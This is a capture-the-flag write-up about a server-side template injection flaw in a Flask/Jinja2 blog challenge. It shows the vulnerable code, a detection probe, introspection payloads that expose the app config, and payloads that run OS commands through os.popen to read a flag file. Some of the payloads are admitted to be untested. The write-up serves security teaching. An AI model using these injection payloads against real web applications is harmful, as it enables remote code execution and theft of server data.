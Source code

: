 # Why Hello There - SSTI Vulnerability
**Description**: 
- *Hints*: Always be sure to sanitize user input!... Even ones that are not always visually obvious at first glance.

## Introduction

Server-Side Template Injection (SSTI) is a vulnerability that allows an attacker to inject malicious templates into a web application, potentially leading to Remote Code Execution (RCE) or information disclosure. SSTI vulnerabilities arise when user input is dynamically inserted into templates and then rendered by the server-side template engine without proper sanitization or validation.

In this challenge, we explore an SSTI vulnerability within a Flask web application. Flask is a popular Python web framework that includes support for Jinja2 templating. Jinja2 is powerful but can be susceptible to SSTI if not properly secured.

## Challenge Overview

The provided source code defines a simple Flask application serving a blog-like website. The application uses the `render_template_string` function from Flask, which dynamically renders templates based on user input. This function is used to customize a greeting message with the visitor's name, which is retrieved from URL parameters.

### Vulnerability Analysis

The critical line in the application is where `render_template_string` is used:

```python
name = request.args.get('name', 'CTF Player')
return render_template_string(f'''
...
<p>Hello {name}! This is a place where I share my thoughts and experiences.</p>
...
''')
```

The `name` parameter from the URL is inserted directly into the template. Since there is no sanitization of the `name` parameter, an attacker can exploit this by injecting a template syntax that can be executed by the server.

## Detecting the vulnerability
- This vulnerability can be detected by providing the following payload:
```
https://grizzhacks-why-hello-there.chals.io/?name={{7*7}}
```
![image](https://github.com/supaaasuge/GrizzCTF2024-Official/assets/158092262/f756f772-3327-449f-8171-f09c50ba57b8)
- As you can see, the name parameter changes to `49` within the template. This can be used to execute arbitrary code on the page. Further processable commands can be enumerated using the following:

##### Introspection

You may conduct introspection with the locals object using dir and help to see everything that is available to the template context. You can also use introspection to reach every other application variable. [This](https://github.com/PequalsNP-team/pequalsnp-team.github.io/blob/master/assets/search.py) script written by the DoubleSigma team will traverse over child attributes of request recursively. For example, if you need to reach the blacklisted config var you may access it anyway via:
```
{{request.application.__self__._get_data_for_json.__globals__['json'].JSONEncoder.default.__globals__['current_app'].config['FLAG']}}
```
##### Extracting classes from the application
```
{{config.items}}
{{''.class.mro()[1].subclasses()}}
```

### Exploiting SSTI in Flask

To exploit this vulnerability, an attacker can craft a payload that the Jinja2 template engine will execute. The goal is to read the contents of `flag.txt`.

A common approach to achieve this is to leverage Jinja2's ability to access Python's built-in attributes and functions through the template. An attacker can use this capability to execute arbitrary Python code.

#### Payload to Read `flag.txt`

The payload to exploit this SSTI vulnerability and read the contents of `flag.txt` on a Windows machine might look something like this:

```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('flag.txt').read() }}
```

This payload works by accessing Python's built-in attributes to open and read a file. The steps are as follows:

1. `''.__class__.__mro__[2]` accesses the `object` base class.
2. `__subclasses__()` lists all subclasses of `object`, where one of them is typically the `file` class or a class that can be used to open files.
3. The index `[40]` (which might need adjustment based on the Python environment) is assumed to be the class that can open files.
4. `('flag.txt').read()` attempts to open `flag.txt` and read its contents.

### Conclusion

This challenge demonstrates the critical importance of sanitizing and validating all user inputs, especially when those inputs are used within template engines like Jinja2 in Flask applications. SSTI vulnerabilities can lead to significant security risks, including unauthorized access to sensitive data and system command execution. Always ensure user inputs are handled securely to prevent such vulnerabilities.
note: The code above is not tested, but the payload is something along those lines.

I.e.,
```
https://MACHINE_IP:10000/?name={{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read() }}
```
OR

```
http://MACHINE_IP:10000/?name={{config.__class__.__init__.__globals__[%27__builtins__%27][%27__import__%27](%27os%27).popen(%27type%20flag.txt%27).read()}}
```
![image](https://github.com/supaaasuge/GrizzCTF2024-Official/assets/158092262/c3db20d4-e983-4e92-a905-badd5fcdb734)

